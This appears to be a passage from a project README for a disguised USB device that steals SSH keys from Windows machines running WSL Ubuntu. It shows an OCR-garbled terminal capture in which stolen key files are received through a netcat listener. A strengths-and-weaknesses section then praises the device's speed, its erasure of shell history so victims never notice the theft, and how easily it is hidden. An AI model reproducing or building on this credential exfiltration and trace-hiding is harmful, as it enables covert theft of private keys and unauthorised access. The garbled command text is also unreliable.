 ```
sample@hoat:\~&#36; cd home

sample@hoat:\~/home&#36; 1a

rahul

aample@host:\~/home&#36; cd rahul/

aample@hoat:\~/home/rahul&#36; 1a

temp_dir

sample@hoat:\~/home/rahul&#36; cd temp_dir/

aample@hoat:\~/home/rahul/temp_dir&#36; 1s

authorized_keya id_ed25519 id_ed25519.pub known_hosta known_hosts.old

sample@hoat:\~/home/rahul/temp_dir&#36;

host login: sample

Password:

Welcome to Ubuntu 23.04 (GNU/Linux 5.15.108-1-p

* Documentation: https://help.ubuntu.com

*Management: https://landscape.canonical.

* Support: https://ubuntu.com/advantage

Last login: Sun Oct 27 05:33:52 UTC 2024 from 19

sample@host:\~&#36;

sample@host:\~ nc -1 30000 | tar x
```

## Strengths and Weaknesses of this implementation

One of the greatest strengths for this implementation would defnitely be its speed as it is able to execute everything and steal all of your stuf in just a few seconds. It also hides its traces so that there is no way of someone even fguring out that they have had their data stolen from them! It is also small as the PCB can be easily disguised and plugged into a computer quickly and unplugged in a matter of seconds. 

It's disadvantage however is that it assumes the target is on a Windows machine using WSL Ubuntu. If we were to plug it into a Mac or Linux machine it would not function as intended. It also expects the user to be using the bash shell however if we were to plug it into the zsh shell, there may be some failure with some of the commands such as hiding the history. We will have to make each USB specifc for an operating system for it to function efectively otherwise it will not operate as intended. 
